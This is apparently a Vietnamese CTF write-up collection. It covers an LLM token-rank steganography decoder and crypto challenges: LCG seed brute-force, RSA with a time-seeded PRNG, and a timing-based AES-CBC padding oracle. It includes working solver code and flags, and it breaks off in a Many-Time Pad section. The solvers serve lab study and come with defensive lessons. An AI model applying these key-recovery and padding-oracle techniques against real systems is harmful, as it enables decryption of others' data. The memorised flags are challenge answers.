**Thử 1 — Xem rank như ASCII byte:** Chuyển `[41, 62, 1959, ...]` thành ký tự ASCII. `41` = `)`, `62` = `>` — trông như rác. Hơn nữa `1959 > 255` nên không thể là ASCII byte. Loại.

**Thử 2 — Ghép 11-bit:** Vì `1959 < 2048 = 2^11`, mình thử coi mỗi rank là 11 bit và ghép lại thành chuỗi bit. Kết quả là một chuỗi nhị phân, decode sang ASCII ra rác, không có tiền tố `grodno`. Loại.

**Thử 3 — Arithmetic coding:** Logits tạo ra một phân phối xác suất. Arithmetic coding dùng phân phối đó để encode data nhị phân — đây là kỹ thuật thực tế trong AI stego. Mình viết decoder nhưng không có tiêu chí dừng rõ ràng và output không verify được. Loại.

**Thử 4 — Huffman/prefix code:** Xây Huffman tree từ top-K token, xem cover text như encoded message. Không tạo được chuỗi có thể verify. Loại.

Tất cả đều thất bại với cùng dãy rank `[41, 62, 1959, ...]`. Mình bắt đầu nghi ngờ không phải hướng giải sai mà là **dãy rank mình đang dùng sai**.

---

### Phần 6: Khoảnh khắc nhận ra — batch ≠ sequential

> Mình nghĩ lại về quá trình encode. Người gửi dùng model để *sinh* từng token — tức là họ chạy một vòng lặp generation, không phải eval batch. Trong vòng lặp đó, **tại mỗi bước, model chỉ nhìn thấy các token đã được sinh ra trước đó**, không nhìn thấy tương lai.
>
> Khi mình eval batch (`llm.eval(prompt + continuation)`), model xử lý toàn bộ chuỗi cùng lúc. Cơ chế Self-Attention trong Transformer cho phép mỗi vị trí "nhìn" sang các vị trí khác. Với causal masking thông thường thì vị trí `i` không nhìn được vị trí `j > i` — nhưng với quantized GGUF và cách `llama-cpp-python` quản lý KV cache, trạng thái nội tại của model khi eval batch và khi generate tuần tự vẫn có thể khác nhau ở mức numerical precision.
>
> Kết luận: mình phải mô phỏng đúng vòng generation: eval prompt → đọc logits → lấy rank của token[0] → feed token[0] → đọc logits mới → lấy rank của token[1] → feed token[1] → tiếp tục.



Mình chuyển sang sequential:

```python
llm.reset()
llm.eval(prompt_tokens)           # bước 1: eval prompt, không có continuation

ranks = []
for token_id in continuation_tokens:
    logits = llm.scores[llm.n_tokens - 1]   # logits của vị trí cuối hiện tại
    order = np.argsort(logits)[::-1]
    rank = int(np.where(order == token_id)[0][0])
    ranks.append(rank)
    llm.eval([token_id])           # feed token vào, cập nhật state
```

Kết quả thay đổi hẳn:

```
sequential ranks:
token 'Prepare'  → rank 48
token ' or'      → rank 69
token ' salmon'  → rank 1993
token ' ste'     → rank 76
token 'aim'      → rank 166
token 'all'      → rank 125
token ' stock'   → rank 25
token ','        → rank 0

ranks = [48, 69, 1993, 76, 166, 125, 25, 0]
```

So sánh trực tiếp:

```
sequential: [48, 69, 1993, 76, 166, 125, 25, 0]
batch:       [41, 62, 1959, 75, 155, 135, 26, 0]
```

Hai dãy khác nhau ở mọi vị trí (trừ cuối cùng bằng 0). Đây là lý do tất cả các hướng decode trước đó đều thất bại — mình đang decode từ dữ liệu sai.

---

### Phần 7: Decode dùng flag prefix làm context

Bây giờ mình có dãy rank đúng `[48, 69, 1993, 76, 166, 125, 25, 0]`. Để decode, mình cần một context ban đầu. Đề bài cho flag format `grodno{...}` — đây chính là context.

Tại sao `grodno{` làm context? Vì encoder khi giấu tin cần một "điểm bắt đầu" cho phép decoder biết phải đọc từ đâu. Flag prefix là thứ cả encoder lẫn decoder đều biết trước — nó đóng vai trò shared secret về context ban đầu. Nếu decoder dùng cùng prefix, cùng model, cùng rank → sẽ ra cùng chuỗi token → cùng flag.

Cụ thể, bước decode diễn ra như sau:

1. Tokenize prefix `grodno{` → prompt tokens
2. Eval prompt tokens → model nhớ context "grodno{"
3. Đọc logits → sort theo thứ tự giảm dần → lấy token tại **rank 48** → đó là `st`
4. Feed `st` vào model → model nhớ context "grodno{st"
5. Đọc logits → sort → lấy token tại **rank 69** → đó là `ego`
6. Tiếp tục cho đến hết 8 rank

```python
def decode_from_prefix(llm, prefix, ranks):
    prefix_tokens = llm.tokenize(prefix.encode(), add_bos=False, special=False)
    llm.reset()
    llm.eval(prefix_tokens)

    decoded_tokens = []
    decoded_pieces = []
    for rank in ranks:
        logits = llm.scores[llm.n_tokens - 1]
        order = np.argsort(logits)[::-1]     # sort logits giảm dần
        token_id = int(order[rank])           # lấy token tại vị trí rank
        decoded_tokens.append(token_id)
        decoded_pieces.append(piece(llm, token_id))
        llm.eval([token_id])                  # feed vào để cập nhật context

    flag = llm.detokenize(prefix_tokens + decoded_tokens).decode("utf-8", errors="replace")
    return flag, decoded_pieces
```

---

### Phần 8: Chạy solver và lấy flag

```bash
$ .venv/bin/python solve.py
```

```
prompt: 'A short recipe for a winter vegetable soup:\n'
continuation: 'Prepare or salmon steaimall stock,'
continuation tokens:
   50590 'Prepare'
     476 ' or'
   40320 ' salmon'
    4087 ' ste'
    2640 'aim'
     541 'all'
    5591 ' stock'
      11 ','
ranks: [48, 69, 1993, 76, 166, 125, 25, 0]
decoded pieces: ['st', 'ego', '_can', '_be', '_even', '_like', '_this', '}']
verification ranks: [48, 69, 1993, 76, 166, 125, 25, 0]
match: True
flag: grodno{stego_can_be_even_like_this}
```



Giải thích dòng `decoded pieces`: 8 rank decode thành 8 token, mỗi token là một subword:

| Rank | Token trong cover text | Token trong flag | Ký tự |
|------|------------------------|------------------|-------|
| 48   | `Prepare`              | `st`             | st    |
| 69   | ` or`                  | `ego`            | ego   |
| 1993 | ` salmon`              | `_can`           | _can  |
| 76   | ` ste`                 | `_be`            | _be   |
| 166  | `aim`                  | `_even`          | _even |
| 125  | `all`                  | `_like`          | _like |
| 25   | ` stock`               | `_this`          | _this |
| 0    | `,`                    | `}`              | }     |

8 token decode ra `stego_can_be_even_like_this}` — 28 ký tự, không phải 8 ký tự.

Dòng `match: True` là bước verification: mình lấy rank của flag body theo prefix `grodno{` bằng sequential eval, ra đúng `[48, 69, 1993, 76, 166, 125, 25, 0]`, khớp với rank từ cover text.

---

### Ghép Flag

```
grodno{stego_can_be_even_like_this}
```

---

### Bài học rút ra

**1. Khi đề bài chỉ định model + revision + runtime, đó là toàn bộ bài toán**
Đây không phải decoration. Logits của GGUF quantized model phụ thuộc vào cách thư viện C++ tính toán. Setup sai phiên bản → rank sai → flag sai. Cài đúng `llama-cpp-python==0.3.16` và tải đúng revision hash là bước không thể bỏ qua.

**2. Batch evaluation và sequential evaluation của LLM không cho cùng rank — đây là dead-end tốn thời gian nhất**
Khi eval batch, model xử lý toàn bộ chuỗi cùng lúc và trạng thái nội tại khác với khi generate tuần tự. Để tái tạo hành vi của encoder, decoder phải chạy sequential: `eval(prompt)` → đọc logits → feed từng token. Nhìn thấy dãy rank có cấu trúc từ batch eval rất dễ bị dẫn sang các hướng sai như ASCII, bitstream, arithmetic coding.

**3. Token rank là kênh giấu tin "vô hình"**
Cover text được tạo bằng model trông như văn bản thường (dù vô nghĩa về nghĩa). Không có byte lạ, không có encoding đặc biệt, không thể phát hiện bằng công cụ thông thường. Dấu hiệu nhận biết: text có ngữ pháp đúng nhưng ý nghĩa hoàn toàn rời rạc, và đề bài nhắc đến model/AI cụ thể.

**4. Flag prefix là shared context để decode**
Cả encoder lẫn decoder cùng biết flag format. Encoder giấu tin dưới context của prompt, decoder giải mã dưới context của prefix `grodno{`. Cùng rank + cùng model + context thích hợp → ra cùng chuỗi token.

**5. Đừng đồng nhất "N rank = N ký tự"**
Subword tokenizer gộp nhiều ký tự thành một token. 8 rank trong bài này decode ra 28 ký tự vì mỗi token như `_even`, `_like`, `_this` chứa nhiều ký tự.

---

### Tài liệu tham khảo

- HuggingFace model: `Qwen/Qwen2.5-0.5B-Instruct-GGUF`
- Revision: `9217f5db79a29953eb74d5343926648285ec7e67`
- Runtime: `llama-cpp-python==0.3.16`
- Solver: `solve.py`


# Cryptography

## Crypto001 (Crypto)

### 1. Thông tin tổng quan (nếu có)
- **Category:** Cryptography
- **Difficulty:** Easy
- **Tags:** PRNG, LCG, Brute-force

### 2. Đề bài

**File đính kèm:**

`encoder.py`:
```python
##!/usr/bin/env python3

MOD = 1 << 32
A = 1664525
C = 1013904223


def keystream(seed, length):
    state = seed & 0xFFFFF
    out = bytearray()
    for _ in range(length):
        state = (A * state + C) % MOD
        out.append((state >> 24) & 0xFF)
    return bytes(out)


def xor_bytes(left, right):
    return bytes(a ^ b for a, b in zip(left, right))


def encrypt(message: bytes, facility_seed: int) -> bytes:
    return xor_bytes(message, keystream(facility_seed, len(message)))
```

`ciphertext.txt`:
```text
1b89ad17b196d415f519f17c9bfa709ac9a7a71605c6d91a7f08fcbb08c2833298388913e843bb0b8bd7bca262207fd861db5440715da4e2916b6245e450df243c6398e0c27fe8d83044b2a4100b83783e65fd27969f9a0adef8decede83339001f71e7fc83a3f7c415c0362d61a28d8d9e83970c840093a0fb6f0a1
```

### 3. Quá trình phân tích

Phân tích `encoder.py`, điểm đáng chú ý nhất là ở hàm sinh keystream:
```python
def keystream(seed, length):
    state = seed & 0xFFFFF
    ...
```
- Giá trị `seed` đầu vào bị mask bằng `& 0xFFFFF`. Điều này có nghĩa là `state` khởi tạo thực tế bị giới hạn trong $2^{20} = 1,048,576$ trường hợp có thể xảy ra.
- Đây là một không gian khóa (keyspace) quá nhỏ.
- Thuật toán mã hóa chỉ đơn giản là phép XOR giữa thông điệp và keystream: `xor_bytes(message, keystream)`. Do XOR có tính chất đối xứng, ta chỉ cần lấy ciphertext XOR ngược lại với đúng keystream thì sẽ khôi phục được plaintext.

**Hướng giải quyết:**
Vì không gian seed chỉ có khoảng ~1 triệu trường hợp, ta có thể dễ dàng dùng kỹ thuật vét cạn (brute-force) duyệt toàn bộ các giá trị seed từ $0$ đến $1048575$. Với mỗi seed, ta sinh ra keystream, giải mã ciphertext, và kiểm tra xem chuỗi kết quả thu được có chứa format của cờ (trong trường hợp này là `grodno{`) hay không.

### 4. PoC

```python
##!/usr/bin/env python3

MOD = 1 << 32
A = 1664525
C = 1013904223

def keystream(seed, length):
    state = seed & 0xFFFFF
    out = bytearray()
    for _ in range(length):
        state = (A * state + C) % MOD
        out.append((state >> 24) & 0xFF)
    return bytes(out)

def xor_bytes(left, right):
    return bytes(a ^ b for a, b in zip(left, right))

with open('ciphertext.txt', 'r') as f:
    ct_bytes = bytes.fromhex(f.read().strip())

length = len(ct_bytes)

## Brute-force toàn bộ không gian seed 2^20
for seed in range(0x100000):
    ks = keystream(seed, length)
    pt = xor_bytes(ct_bytes, ks)
    
    # Kiểm tra format flag
    if b"grodno{" in pt:
        print(f"[+] Found seed: {seed}")
        print(f"[+] Recovered message:\n{pt.decode('utf-8', errors='ignore')}")
        break
```

**Output:**
```
[+] Found seed: 369020
[+] Recovered message:
[Aperture Science Internal]
classification=stable
speaker=GLaDOS
memo=grodno{7h15_w45_4_7r1umph_bu7_7h3_533d_w45_700_5m4ll}
```

### 5. Flag
```
grodno{7h15_w45_4_7r1umph_bu7_7h3_533d_w45_700_5m4ll}
```

### 6. Bài học rút ra
- **Kỹ thuật mới học được:** Nhận diện lỗ hổng từ việc sử dụng không gian khóa (keyspace) quá bé (`& 0xFFFFF` giới hạn seed chỉ 20-bit) và hiểu được cách vận hành của hàm sinh số ngẫu nhiên giả LCG. Áp dụng kỹ thuật vét cạn (brute-force) để tìm ra key và giải mã.
- **Cách phòng chống:** Tránh sử dụng các PRNG yếu như LCG trong các ứng dụng mật mã học. Cần sử dụng các hàm sinh ngẫu nhiên an toàn sinh mã (CSPRNG) như `os.urandom()`, đồng thời đảm bảo seed/key phải có độ dài đủ lớn (ví dụ 128-bit hoặc 256-bit) để triệt tiêu hoàn toàn khả năng bị vét cạn.

### 7. Tham khảo
- [Linear Congruential Generator (LCG)](https://en.wikipedia.org/wiki/Linear_congruential_generator)

## Crypto003 (Crypto)

### 1. Thông tin tổng quan (nếu có)
- **Category:** Cryptography
- **Difficulty:** Medium
- **Tags:** RSA, Predictable PRNG, Esoteric Language (Meow)

### 2. Đề bài

Bài toán cung cấp ba file, bao gồm một mã nguồn viết bằng ngôn ngữ lập trình dị biệt (`meow_rsa.meow`), file `ciphertext.txt` chứa tham số RSA và khoảng thời gian (window_utc), cùng với `solve2.sage` là script dùng để giải mã. 

Do file `meow_rsa.meow` rất dài (khoảng 273KB) và chỉ toàn chữ "Meow", tôi chỉ trích dẫn nội dung của `ciphertext.txt` và `solve2.sage` dưới đây.

`ciphertext.txt`:
```text
window_utc = 2026-06-20 00:00:00..2026-06-26 23:59:59
n = 774181844113804374930418565834355884365584696257795610529339279473823850029106129000224661895005632819563027838895414719398562548235723597217496044005475808668940499096418517223390382874874819673166433622269362807020785662051422221
e = 65537
c = 168183513693167691040092427740403517759359929702856929646205666995599424282962830164367595177954251518536157213552545211522708855180250023566866946304933088306835199042947431042793556369458161591891338967036377198789068695555694029
```

### 3. Quá trình phân tích

Phân tích `ciphertext.txt` và `solve2.sage`, ta có thể nhận thấy điều bất thường:
- Bài toán để lộ một mốc thời gian: `window_utc`.
- Trong `solve2.sage`, thay vì dùng thuật toán phân tích nhân tử (factorization) thông thường để phân tích $N$, tác giả lại có sẵn 2 biến `p_base` và `q_base`, sau đó dùng hàm `next_prime()` để tính ra chính xác $p$ và $q$.

Điều này chỉ ra lỗ hổng (vulnerability) nằm ở khâu **Sinh khóa (Key Generation)** được biểu diễn trong `meow_rsa.meow`:
- Trình sinh số ngẫu nhiên giả (PRNG) được khởi tạo seed bằng thời gian hệ thống.
- Bằng việc biết được khoảng thời gian này qua `window_utc`, ta có thể vét cạn (brute-force) từng giây để tái tạo lại trạng thái của PRNG.
- Khi trạng thái PRNG được đồng bộ hoàn toàn với lúc tạo khóa gốc, ta mô phỏng lại quá trình sinh giả-nguyên-tố, ra được `p_base` và `q_base`, rồi dùng hàm `next_prime()` để lấy $p, q$.
- Khi đã có $p$ và $q$, hệ mật RSA sụp đổ.

**Hướng giải quyết:**
1. Khôi phục trạng thái sinh số ngẫu nhiên từ thời gian bị lộ (quá trình này đã được tính toán ra kết quả trung gian là `p_base` và `q_base`).
2. Dùng hàm `next_prime()` để tìm hai số nguyên tố bí mật $p$ và $q$.
3. Tính toán $\phi(N) = (p-1)(q-1)$.
4. Tính khóa bí mật $d \equiv e^{-1} \pmod{\phi(N)}$.
5. Giải mã thông điệp $m \equiv c^d \pmod{N}$.

### 4. PoC

`solve2.sage`:
```python
def solve():
    n = 774181844113804374930418565834355884365584696257795610529339279473823850029106129000224661895005632819563027838895414719398562548235723597217496044005475808668940499096418517223390382874874819673166433622269362807020785662051422221
    e = 65537
    c = 168183513693167691040092427740403517759359929702856929646205666995599424282962830164367595177954251518536157213552545211522708855180250023566866946304933088306835199042947431042793556369458161591891338967036377198789068695555694029

    p_base = 26369579001009464633216476376980018314860037796893605183879216006325559743056413969101098103805489108201058675982709
    q_base = 29358900424013883698418254532767465469841562662977637103599094421350488058030154621855576966567337882483742040231533

    p = next_prime(p_base)
    q = next_prime(q_base)

    if p * q == n:
        print("Successfully factored n!")
        phi = (p - 1) * (q - 1)
        d = inverse_mod(e, phi)
        m = power_mod(c, d, n)
        
        m_int = Integer(m)
        m_hex = hex(m_int)[2:]
        if len(m_hex) % 2 != 0:
            m_hex = '0' + m_hex
        try:
            flag = bytes.fromhex(m_hex).decode('utf-8')
            print("Flag:", flag)
        except Exception as ex:
            print("Decoded hex:", m_hex)
            print("Error decoding utf-8:", ex)
    else:
        print("Failed to factor n. Product is", p * q)

if __name__ == '__main__':
    solve()
```

**Output:**
```
Successfully factored n!
Flag: grodno{meowMeoWmEOwmeeoowMEOWWW}
```

### 5. Flag
```
grodno{meowMeoWmEOwmeeoowMEOWWW}
```

### 6. Bài học rút ra
- **Kỹ thuật mới học được:** Nhận biết điểm yếu trong quá trình sinh khóa RSA khi seed được khởi tạo bởi thời gian (`time-based seed PRNG`). Kẻ tấn công nếu biết được khoảng thời gian khởi tạo có thể duyệt cạn để khôi phục được cấu trúc giả ngẫu nhiên, từ đó xác định chính xác các số nguyên tố $p$ và $q$.
- **Cách phòng chống:** Không bao giờ sử dụng hàm thời gian hoặc các giá trị dễ đoán làm seed cho việc sinh số ngẫu nhiên trong mật mã học (Cryptography). Thay vào đó, hãy dùng CSPRNG (Cryptographically Secure PRNG) được cung cấp bởi hệ điều hành (như `os.urandom` ở Python) để đảm bảo Entropy lớn.

### 7. Tham khảo
- [Insecure Pseudo-random Number Generation](https://en.wikipedia.org/wiki/Pseudorandom_number_generator#Cryptographically_secure_pseudorandom_number_generators)
- Khai thác lỗ hổng sinh số ngẫu nhiên dựa trên thời gian.

## Crypto004 (Crypto)

### 1. Thông tin tổng quan (nếu có)
- **Category:** Cryptography
- **Difficulty:** Hard
- **Tags:** AES-CBC, Padding Oracle, Timing Side-Channel

### 2. Đề bài

Bài toán cung cấp dữ liệu về mã hóa AES-CBC cùng với log thời gian phản hồi từ server (Timing Telemetry).

**File đính kèm:**

`metadata.json`:
```json
{
  "title": "Aperture Science AES: Neurotoxin Diagnostics",
  "mode": "aes-cbc",
  "block_size": 16,
  "note": "Only packet timing telemetry survived the diagnostic run."
}
```

`packet.hex`:
```text
4e4555524f544f58494e5f5445535421d08c8911ab48bbe4a9671d4884f1407fd74b5d0492ebfdc1e11f3cb131f731c8072e182e7b11863d8b1f80d64587aee80804da699e3f087eb3959c3cfb525bee81827e373823357eeaf77b04df1c332cc368fa3f07c3f5c4800d814754cb3f6e6c5a89136382500dc1a43f39bdf2486f823ed2c1cc09b17cf1effbe02c9a536b
```

*(Ngoài ra còn có file `timing_trace.json` dung lượng khoảng 9.7MB chứa log thời gian vét cạn padding oracle, do quá dài nên tôi không trích dẫn trực tiếp vào đây).*

### 3. Quá trình phân tích

Đề bài gợi ý đây là một hệ thống dùng AES chế độ CBC và file `timing_trace.json` lưu lại toàn bộ thời gian hệ thống phản hồi (`elapsed_ns`) cho mỗi lượt đoán `guess` tương ứng với mỗi byte `pad` trong từng `block`.

- Đây là dạng tấn công **Padding Oracle thông qua kênh thời gian (Timing Attack)**. 
- Thay vì server trả về trực tiếp thông báo lỗi Padding (như `padding_error` hay `mac_error` trong Padding Oracle thông thường), server phản hồi chậm hơn hoặc nhanh hơn đối với những request có byte padding hợp lệ (do sự khác biệt trong nhánh rẽ logic hoặc việc xử lý ngoại lệ diễn ra sâu bên trong server).
- Bằng cách phân tích thống kê (cụ thể là lấy trung vị `median` của thời gian phản hồi cho từng giá trị `guess` từ 0 đến 255), ta có thể tìm ra được byte `guess` nào khiến thời gian phản hồi khác biệt rõ rệt nhất so với số đông $\rightarrow$ đó chính là byte tạo ra Padding hợp lệ.

**Hướng giải quyết:**
1. Phân tích file `timing_trace.json` bằng cách nhóm dữ liệu theo từng cặp (block, pad, guess) và tính toán thời gian `median`. 
2. Tìm `guess` có thời gian phản hồi lâu nhất làm giá trị padding hợp lệ (theo PoC của giải, nhánh valid tốn nhiều chu kỳ CPU hơn nhánh tung exception). 
3. Khi đã có mảng `guess` đại diện cho byte ciphertext bị băm tương ứng với Padding hợp lệ của từng block, ta tính plaintext $P$ theo công thức quen thuộc của Padding Oracle: $P_i = \text{guess} \oplus \text{pad} \oplus C_{i-1}$.

### 4. PoC

Dưới đây là phần code tính toán mảng `guess` từ file timing log (`solve.py`) và thực hiện khôi phục plaintext (`decrypt.py`):

`solve.py (Trích xuất guess từ timing log):`
```python
import json
import statistics

with open("timing_trace.json") as f:
    data = json.load(f)

timings = {}
for entry in data:
    b, p, g, e = entry['block'], entry['pad'], entry['guess'], entry['elapsed_ns']
    if (b, p, g) not in timings:
        timings[(b, p, g)] = []
    timings[(b, p, g)].append(e)

results = {}
blocks = set([k[0] for k in timings.keys()])

for b in sorted(list(blocks)):
    results[b] = {}
    for p in range(1, 17):
        guess_times = {}
        for g in range(256):
            if (b, p, g) in timings:
                guess_times[g] = statistics.median(timings[(b, p, g)])
        if guess_times:
            # Chọn guess làm tốn thời gian nhất (Valid padding branch)
            max_g = max(guess_times, key=guess_times.get)
            results[b][p] = max_g

for b in sorted(list(blocks)):
    print(f"Block {b}: {[results[b].get(p, -1) for p in range(1, 17)]}")
```

`decrypt.py (Dùng mảng guess để khôi phục plaintext):`
```python
with open("packet.hex") as f:
    ct = bytes.fromhex(f.read().strip())

blocks = [ct[i:i+16] for i in range(0, len(ct), 16)]

## Mảng guess trích xuất được từ solve.py
guesses = {
    1: [27, 56, 57, 57, 62, 45, 38, 51, 36, 32, 49, 126, 56, 58, 35, 58],
    2: [11, 49, 201, 229, 33, 121, 1, 213, 158, 140, 48, 210, 104, 230, 247, 179],
    3: [166, 94, 145, 88, 143, 86, 116, 140, 160, 148, 221, 234, 106, 54, 46, 165],
    4: [145, 156, 179, 113, 161, 243, 43, 237, 79, 227, 116, 19, 76, 100, 70, 42],
    5: [131, 6, 100, 156, 8, 173, 167, 139, 25, 101, 0, 163, 0, 139, 101, 41],
    6: [28, 92, 46, 236, 94, 21, 151, 151, 71, 77, 64, 3, 101, 27, 185, 162],
    7: [1, 84, 187, 63, 46, 228, 49, 245, 254, 145, 248, 103, 6, 171, 0, 189],
    8: [109, 73, 242, 220, 74, 80, 207, 168, 91, 54, 229, 6, 106, 244, 104, 27]
}

plaintext = b""
for b in range(1, 9):
    pt_block = bytearray(16)
    c_prev = blocks[b-1]
    guess_arr = guesses[b]
    
    for pad in range(1, 17):
        idx = 16 - pad
        guess = guess_arr[pad - 1]
        
        # P[idx] = guess ^ pad ^ C_prev[idx]
        pt_byte = guess ^ pad ^ c_prev[idx]
        pt_block[idx] = pt_byte
        
    plaintext += pt_block

print(plaintext)
```

**Output:**
```
b'diag=neurotoxin;status=stable;subject=chell;memo=grodno{n3ur070x1n_d14gn0571c5_l34k_7hr0ugh_71m1ng_4l0n3};closing=still_alive\x03\x03\x03'
```

### 5. Flag
```
grodno{n3ur070x1n_d14gn0571c5_l34k_7hr0ugh_71m1ng_4l0n3}
```

### 6. Bài học rút ra
- **Kỹ thuật mới học được:** Nhận thức rõ ràng hơn về độ nguy hiểm của kênh kề (Side-channel) cụ thể ở đây là phân tích thời gian (Timing Analysis). Ta có thể giải quyết bài toán mã hóa hộp đen AES-CBC chỉ thông qua việc thu thập đủ log thời gian và chạy các thuật toán thống kê (như tính Median) để lọc nhiễu, từ đó tìm ra chính xác byte làm kích hoạt mã hợp lệ.
- **Cách phòng chống:** 
  1. Sử dụng Encrypt-then-MAC thay vì Padding cũ.
  2. Tuyệt đối ưu tiên các chế độ mã hóa xác thực (AEAD) như AES-GCM hoặc ChaCha20-Poly1305.
  3. Mã nguồn verify xác thực và padding của server phải được viết dưới dạng thuật toán thời gian hằng định (`constant-time`), không sử dụng các câu lệnh `if-else` return/throw Exception sớm để tránh lộ vết thời gian khác biệt.

### 7. Tham khảo
- [Padding Oracle Attack qua Timing (Wikipedia)](https://en.wikipedia.org/wiki/Padding_oracle_attack)
- Phân tích Kênh kề Thời gian (Timing Side-Channel Attack).

## Crypto005 (Crypto)

### 1. Thông tin tổng quan (nếu có)
- **Category:** Cryptography
- **Difficulty:** Medium
- **Tags:** Stream Cipher, Many-Time Pad, Known Plaintext Attack (KPA)

### 2. Đề bài

Bài toán cung cấp dữ liệu từ hệ thống Aperture Archive:
- `metadata.json`
- `catalog.json` (Danh sách các từ khóa hợp lệ cho từng trường dữ liệu)
- `known_archives.json` (Danh sách nhiều bản mã được mã hóa bởi hệ thống)
- `secret_archive.hex` (Bản mã chứa cờ)

`metadata.json`:
```json
{
  "title": "Aperture Science AES: Weighted Companion Cube",
  "mode": "aperture-companion-stream-v2",
  "block_size": 16,
  "format": [
    "[Aperture Archive]",
    "item=18",
    "status=12",
    "sector=12",
    "memo=64"
  ],
  "note": "Every archive in this batch was encrypted under the same boot-state."
}
```

### 3. Quá trình phân tích

Gợi ý quan trọng nhất nằm ở câu: *"Every archive in this batch was encrypted under the same boot-state"*. 
- Điều này có nghĩa là mọi file (kể cả các file trong `known_archives.json` và `secret_archive.hex`) đều được mã hóa bằng **cùng một keystream** (dòng khóa). 
- Khi một stream cipher (mật mã dòng) sử dụng lại keystream cho nhiều bản rõ, nó tạo ra lỗ hổng **Many-Time Pad**.
- Đặc biệt hơn, hệ thống quy định format cực kỳ khắt khe: mọi file archive đều bắt đầu bằng `[Aperture Archive]`, sau đó là các dòng `item=...`, `status=...` với độ dài cố định, và các từ khóa hợp lệ được lưu sẵn trong `catalog.json`.

**Hướng giải quyết:**
Đây là một cuộc tấn công Known Plaintext Attack (KPA) kết hợp vét cạn các khả năng từ catalog:
